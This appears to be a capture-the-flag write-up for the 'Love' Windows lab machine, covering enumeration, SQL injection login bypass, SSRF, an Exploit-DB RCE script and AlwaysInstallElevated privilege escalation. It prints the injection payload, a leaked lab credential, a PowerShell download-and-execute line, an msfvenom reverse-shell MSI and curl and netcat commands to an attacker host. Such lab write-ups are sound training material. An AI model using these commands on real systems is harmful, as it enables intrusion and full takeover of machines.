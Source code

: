 # Penetration Test Write-Up: "Love" Machine

## Overview

"Love" is a Windows machine with a voting system that has a serious security flaw. The system exposes multiple services, including a vulnerable file scanner that can be exploited through SSRF (Server-Side Request Forgery). Using this vulnerability, we gain access to internal services and extract credentials for the voting system. After logging in, we exploit a remote code execution bug to gain a foothold on the system as the user "phoebe." Further privilege escalation allows us to bypass AppLocker and execute commands with SYSTEM privileges.

---

## Enumeration

### Nmap Scan
We started with an Nmap scan to identify open ports and services:

```
nmap -sC -sV -oA nmap/love 10.10.10.239 -Pn
```

![alt text](Snapshots/Love-image.png)

![alt text](Snapshots/Love-image2.png)


**Open Ports:**
- **80**: HTTP 
- **443**: HTTPS (leaking staging.love.htb)
- **5000**: HTTP service
- **445**: SMB service also detected
- **3306**: MySQL

We added the site names in our hosts file
```
echo "10.10.10.239 love.htb staging.love.htb" | sudo tee -a /etc/hosts
```

### HTTP Service (Port 80)
The web server on port 80 displayed a login page for the voting system. We attempted a few common login credentials and noted that an incorrect password prompt appeared for valid usernames, confirming that an admin account exists.

![alt text](Snapshots/Love-image3.png)

### HTTPS Service (Port 443)
Accessing https://staging.love.htb, and we got a File Scanner page. But we have no credentials to access it.

![alt text](Snapshots/Love-image4.png)


### Port 5000
Attempting to access port 5000 directly was blocked.

![alt text](Snapshots/Love-image5.png)

### Other ports
The SMB service did not allow anonymous login. We switched to running a **Gobuster** scan to find hidden directories.

```
gobuster dir -u http://10.10.10.239 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Gobuster identified several directories, some of them are defaults but these two might be useful as we progress with our exploits.:
- `/images`
- `/admin`

![alt text](Snapshots/Love-image6.png)

---

## Exploitation

### SQL Injection
We tested for SQL injection on the login page. Using the exploit from [Exploit-DB](https://www.exploit-db.com/exploits/49843), we successfully bypassed authentication:

```
Username: dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -
Password: admin
```
![alt text](Snapshots/Love-image7.png)

### File Upload Vulnerability
After logging in, we navigated to the "Create Voter" page, which allowed file uploads. We uploaded various file types and found that the server saved them to the `/images` directory.

![alt text](Snapshots/Love-image8.png)

We tried to upload a php reverse shell but it failed to execute as something is blocking it from the server side.

![alt text](Snapshots/Love-image-9.png)

### SSRF Exploitation
Switching tactics, we ran another Gobuster scan on staging.love.htb and discovered `beta.php`. By leveraging SSRF, we accessed internal services by querying localhost URLs directly:

![alt text](Snapshots/Love-image-10.png)

![alt text](Snapshots/Love-image-11.png)

![alt text](Snapshots/Love-image-12.png)

- http://localhost:5000 revealed an internal password manager with leaked credentials:
```
  admin:@LoveIsInTheAir!!!!
```
---

### RCE on Voting System
Using the leaked credentials, we logged into the voting system and found an RCE exploit in Exploit-DB ([49445.py](https://www.exploit-db.com/exploits/49445)). After modifying the script to point to the correct URLs, we executed it:

![alt text](Snapshots/Love-image-13.png)

The exploit works but these URLs are needed to be updated. I've also added my listening IP and PORT, and the admin credentials as well.

![alt text](Snapshots/Love-image-14.png)

I setup a netcat listener
```
nc -lnvp 9001
```

Then run the exploit
```
python3 ./49445.py
```

We established a reverse shell and got the user flag.

![alt text](Snapshots/Love-image-15.png)


---

## Privilege Escalation

### PowerUp Script
I uploaded and run the PowerUp script to identify privilege escalation vectors:

```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.11:8000/PowerUp.ps1')
```

Then run this in the victim's machine:
```
Invoke-AllChecks
```

The scan revealed that the **AlwaysInstallElevated** registry key was set to 1. The **AlwaysInstallElevated registry** key is a known privilege escalation vector in Windows systems. When this key is set to 1, it allows MSI files to be installed with elevated privileges by non-administrator users. This is a major security risk because attackers can abuse it to execute arbitrary MSI packages with SYSTEM privileges.
![alt text](Snapshots/Love-image-16.png)


### Crafting an MSI Payload
We used **msfvenom** to create a malicious MSI payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=4444 -f msi > shell.msi
```

### Upload and Execution
We uploaded the payload to `C:\programdata` using **curl**:

The C:\ProgramData directory is commonly accessible for "Everyone" because it's used by Windows to store shared application data that needs to be accessible by multiple users, regardless of their privilege level. I've also checked the directory's permission and Users are allowed to execute.

```
Get-Acl . | Format-List
```
![alt text](Snapshots/Love-image-17.png)

As this directory is confirmed that we can run our privilege escalation exploit, we download the .msi file from our local machine.
```
curl http://10.10.14.11:8000/shell.msi -o shell.msi
```

Then, we set up a listener:

```
rlwrap nc -lnvp 4444
```

Finally, we executed the MSI file with elevated privileges:

```
msiexec /quiet /qn /i shell.msi
```

Upon execution, we gained a shell with SYSTEM privileges.

![alt text](Snapshots/Love-image-18.png)

---

## Conclusion
The "Love" machine showcased several critical vulnerabilities:
1. SQL Injection on the voting system login page.
2. SSRF vulnerability that exposed internal services.
3. Misconfigured AlwaysInstallElevated registry key, allowing privilege escalation.

By systematically exploiting these weaknesses, we achieved full control of the system as a SYSTEM user.

